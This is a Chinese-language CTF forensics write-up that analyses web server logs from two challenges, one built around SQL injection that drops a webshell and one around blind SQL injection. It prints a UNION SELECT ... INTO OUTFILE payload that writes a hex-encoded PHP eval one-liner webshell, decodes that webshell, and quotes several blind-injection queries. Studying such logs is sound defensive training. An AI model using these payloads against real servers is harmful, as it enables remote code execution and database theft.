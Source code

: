 4. 根据题目信息获得flag为NSSCTF{WIN-LO6FAF3DTFE-192.168.202.131}

## [应急响应]welog1

https://forensics.didctf.com/challenges#welog1-703

- 考点：webshell，PHP一句话木马，Hex
- 工具：cyberchef

1. 打开日志发现前面好像在sql注入，发现一条奇怪的日志信息

   ```
   192.168.150.1 - - [10/Mar/2023:08:19:46 +0000] "GET /index.php?id=0%27%20union%20select%201,0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22,3,4%20into%20outfile%20%22/var/www/html/ShEll1.php%22; HTTP/1.1" 200 1194 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36"
   ```

   - Ask GPT：请你帮我解释一下上面日志的含义

     - `GET`：请求方法，表示客户端请求访问服务器上的某个资源。

     - `/index.php?id=0%27%20union%20select%201,...`：请求的  URL。该 URL 包含一个 SQL 注入攻击的参数。
       - `id=0%27%20union%20select%201,...`：`id` 参数包含 SQL 注入的内容。`%27` 是 URL 编码后的单引号（'），`%20` 是空格的编码。这个注入尝试通过 SQL `union` 操作来执行恶意查询。
       - 通过 `union select`，攻击者试图执行一个 SQL 查询来提取数据库中的内容。查询包括了一个长字符串（可能是用来创建 Web shell 的代码）。
       - `into outfile "/var/www/html/ShEll1.php"`：这部分表明攻击者试图将结果写入到服务器的 `/var/www/html/ShEll1.php` 文件中，这个文件看起来是一个 Web shell，攻击者可以用它来远程控制服务器。

   也就是说这条日志的含义就是将这一串16进制的字符串写入`/var/www/html/ShEll1.php`文件当中

2. 使用cyberchef将其转化为可打印字符

   ```
   "<?php @eval($_POST['3b90d75de248ce55b66e8e30873b6000']);?>"
   ```

   是PHP一句话木马，按照题目要求，POST的参数即为flag，flag{3b90d75de248ce55b66e8e30873b6000}

## [陇剑杯 2021]SQL注入

https://www.nssctf.cn/problem/295

- 考点：SQL注入，盲注

1. 通过分析发现这是盲注的日志，先注数据库名，再注表名，然后注列名，最后注flag

2. 首先我们只关注注flag的过程，本来想依据返回值大小来判断，注成功的返回包是要比失败的返回包大一点，但是他们本身没有什么规律，不像布尔盲注这种规律性很强，于是我们可以换位思考，从攻击者的视角来刨析

   - 首先盲注是一个循环，循环的开始都是一样的字符
   - 其次为了节省时间，攻击者一般都是在注入成功之后都会结束该轮循环，也就是说注入成功的字符的下一个字符一定都是最开始的那个字符

   Ask GPT：172.17.0.1 - - [01/Sep/2021:01:37:25 +0000] "GET /index.php?id=1%20and%20if(substr(database(),2,1)%20=%20's',1,(select%20table_name%20from%20information_schema.tables)) HTTP/1.1" 200 416 "-" "python-requests/2.26.0" 172.17.0.1 - - [01/Sep/2021:01:37:25 +0000] "GET /index.php?id=1%20and%20if(substr(database(),2,1)%20=%20'r',1,(select%20table_name%20from%20information_schema.tables)) HTTP/1.1" 200 416 "-" "python-requests/2.26.0" 172.17.0.1 - - [01/Sep/2021:01:37:25 +0000] "GET /index.php?id=1%20and%20if(substr(database(),2,1)%20=%20'q',1,(select%20table_name%20from%20information_schema.tables)) HTTP/1.1" 200 473 "-" "python-requests/2.26.0" 172.17.0.1 - - [01/Sep/2021:01:37:25 +0000] "GET /index.php?id=1%20and%20if(substr(database(),3,1)%20=%20'%C2%80',1,(select%20table_name%20from%20information_schema.tables)) HTTP/1.1" 200 421 "-" "python-requests/2.26.0" 172.17.0.1 - - [01/Sep/2021:01:37:25 +0000] "GET /index.php?id=1%20and%20if(substr(database(),3,1)%20=%20'%7F',1,(select%20table_name%20from%20information_schema.tables)) HTTP/1.1" 200 418 "-" "python-requests/2.26.0" 上面是一个txt文件中的一部分内容，这是sql注入中盲注的日志，我需要你提取出注入字符为%C2%80的上一条日志注入的字符，请你使用python实现，读取文件中的内容，并实现上面的功能。
